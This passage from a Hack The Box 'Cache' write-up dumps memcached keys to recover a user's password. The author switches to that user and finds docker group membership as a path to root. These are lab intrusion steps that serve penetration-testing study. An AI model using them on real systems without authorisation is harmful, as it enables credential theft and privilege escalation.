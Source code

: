 ```bash
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
```
<br />There are some interesting keys here. Let's dump them all.
<br />
```bash
get link
get link
VALUE link 0 21
https://hackthebox.eu
END
get user
get user
VALUE user 0 5
luffy
END
get passwd
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get file
get file
VALUE file 0 7
nothing
END
get account
get account
VALUE account 0 9
afhj556uo
```
<br />Good! We found the password for luffy. Let's try to switch user.
## Escalate to User Luffy
Let's try switching to uesr luffy.
<br />
```bash
ash@cache:/$ su luffy
su luffy
Password: 0n3_p1ec3

luffy@cache:/$ 
```
<br />It worked!
## Privesc Enumeration as Luffy

### ID 
Let's check what groups user luffy is in.
<br />
```bash
luffy@cache:/$ id
id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```
<br />User luffy is part of the docker group. We can use it to escalate to root. We just have to check the images available in this machine.
